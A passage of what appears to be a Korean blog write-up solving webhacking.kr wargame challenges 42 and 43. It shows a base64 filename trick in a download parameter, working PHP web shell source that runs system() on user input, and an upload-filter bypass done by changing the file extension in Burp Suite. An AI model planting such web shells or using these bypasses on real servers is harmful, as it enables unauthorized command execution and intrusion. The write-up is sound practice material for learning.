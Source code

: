 ```yaml
---
title: "Security: webhacking.kr 42-46"
last_modified_at: 2020-08-07T20:20:02-05:00
categories:
  - Security
tags:
  - webhacking.kr
  - 웹해킹
toc: true 
toc_label: "Table of Contents"
toc_icon: "cog"
toc_sticky: true 
author_profile: true 
read_time: false 
---
```


---
### 42 문제풀이 (base64 edcode)
---

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제42/42-1.JPG" alt="">
  <figcaption> </figcaption>
</figure>

42번 문제에 들어오니 두개의 파일을 다운 받을 수 있도록 만들어 놨다. 
test.txt를 열어보니 다음과 같이 쓰여있었고 flag.docx는 Access Denied로 다운 받을 수 없었다.
test.txt 파일의 내용이 힌트인듯 하다.
{: .notice}

```
test123
qwer123
asdf234
```

우선 다른 힌트를 더 얻기위하여 test.txt 다운로드 링크를 찾아보니 다음과 같았다.
{: .notice}
```php
https://webhacking.kr/challenge/web-20/?down=dGVzdC50eHQ=
```

영어 대소문자+숫자+= 을 보고 base64 encode 값임을 확신하고 decode를 했더니 파일명이 나타났다
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제42/42-2.JPG" alt="">
  <figcaption> </figcaption>
</figure>

그래서 flag.docx도 똑같이 base64로 encode하여 아래와 같은 링크로 접속해보니 
{: .notice}

https://webhacking.kr/challenge/web-20/?down=ZmxhZy5kb2N4

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제42/42-3.JPG" alt="">
  <figcaption> </figcaption>
</figure>

위와 같이 파일을 다운 받을 수 있었고 쉽게 flag 값을 얻을 수 있었다.
{: .notice}

```
FLAG{very_difficult_to_think_up_text_of_the_flag}
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제42/42-4.JPG" alt="">
  <figcaption> </figcaption>
</figure>


---
### 43 문제풀이 (Web Shell)
---
---
#### Web shell
---

* **Web shell 이란?**
* 파일 업로드 기능을 이용하여 시스템에 명령을 내릴 수 있는 웹 프로그램을 업로드 할 수 있는 취약점
* 서버 스크립트 jsp,php,asp 업로드 시 확장자에 대한 검증 필요
* 웹쉘 설치 시 해커들은 보안 시스템을 피하여 별도의 인증 없이 시스템에 쉽게 접속이 가능하므로 위험하다.
	* 공격자가 조작한 Server Site Script 파일을 업로드
	* 서버상에 저장된 경로를 유추하여 파일을 실행
	* 쉘 권한을 획득한 후에 시스템 명령어를 통하여 시스템 관리자 권한을 획득 또는 인접 서버에 침입을 시도
{: .notice}

---
#### 문제 풀이
---

43번 문제에 들어와보니 파일을 업로들 할수 있는 란이 있고 웹셀을 업로드하고 flag를 cat 명령어로 열어봐야한다고 적혀있다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제43/43-1.JPG" alt="">
  <figcaption> </figcaption>
</figure>

```php
<?php

echo 'Chall43 Webshell<br>';
echo '<form action="">';
echo '<input type=text name="cmd">';
echo '<input type="submit">';
echo '</form>';

if(isset($_GET['cmd'])){
	system($_GET['cmd']);
}
?>
```
위 코드는 text 타입의 element를 통해서 cmd 값을 받아 system 명령어를 실행하도록 하는 소스코드다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제43/43-2.JPG" alt="">
  <figcaption> </figcaption>
</figure>

위와 같이 소스코드를 작성하고 업로드를 시도했으나 Access Denied라는 메세지가 나타났다. 그래서 확장자를 jpg로 바꾸어서 업로드 해보았다.   
참고: https://covenant.tistory.com/62
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제43/43-3.JPG" alt="">
  <figcaption> </figcaption>
</figure>

그냥 jpg로 업로드하면 아무 의미가 없다. 실행이 되도록 하기 위해서 burp suite로 jpg를 지워서 확장자를 php로 고친 후 업로드하였다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제43/43-4.JPG" alt="">
  <figcaption> </figcaption>
</figure>

이제 업로드한 웹셀을 실행하였고 'cat flag'를 입력하였다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제43/43-4.JPG" alt="">
  <figcaption> </figcaption>
</figure>

위와 같이 flag 값을 얻는데 성공하였다!
{: .notice}





















